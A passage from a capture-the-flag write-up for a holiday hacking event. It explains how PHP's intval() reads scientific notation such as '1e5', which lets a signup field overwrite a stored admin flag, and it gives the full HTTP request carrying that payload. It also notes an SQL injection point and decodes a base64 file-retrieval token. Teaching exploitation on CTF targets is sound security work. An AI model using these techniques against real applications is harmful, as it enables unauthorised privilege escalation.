 From analyzing the above code its apparent that we can not use the username, firstname, lastname in a malicious way since they are heavily sanitised.
We see though that the age parameter has less strict checks such as:
```php
if (!is_numeric($_POST["age"]))
if (strlen($_POST["age"]) > 3)
```

Once those check are passed the following happens
```php
$age = intval($_POST["age"]);
```

This is interesting based on this post [intval processing PHP 7](https://www.php.net/manual/en/function.intval.php#120543)
we can notice that  `intval('1e5');` will return 100000.
This fits perfectly our purpose. Since now by adding the additional values, we can overide the  ` $line .= 'N';` which is set by default and change it to Y which will grant us administrative privilleges.

**Signup Request to Obtain Admin Privileges**
```http
POST /signup-manager/ HTTP/1.1
Host: hackyholidays.h1ctf.com
Connection: close
Content-Length: 105
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://hackyholidays.h1ctf.com
Content-Type: application/x-www-form-urlencoded
<--REDACTED-->

action=signup&username=w31rdtest&password=password&age=1e5&firstname=loadsofys&lastname=abcdefgabcdeYYY
```
Then we can login with the above credentials and access the hidden message with the flag.

{F1124657}

##**Day 11**

1) New target is [Recon Server](https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59) based on the message from Day 10.

2) After a lot of recon and attempts we discover that an SQLinjection exists on the following URL on the `hash` parameter
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=

3) Also we have identified that the images hosted on the server are retrievable via a base64 value, which include an auth token that validates the file. If the authentication token is off, the file retrieval will fail, with a message that the authentication token is wrong.

**Encoded File Retrieval object:**
```
eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzMyZmViYjE5NTcyYjEyNDM1YTZhMzkwYzA4ZThkM2RhLmpwZyIsImF1dGgiOiI3NmJhMDYxZDM1NmM2MjY0YTYwMDUyMTZlMTc3NmJhNiJ9
```
**Decoded Object**
```json
{"image":"r3c0n_server_4fdk59\/uploads\/32febb19572b12435a6a390c08e8d3da.jpg","auth":"76ba061d356c6264a6005216e1776ba6"}
```
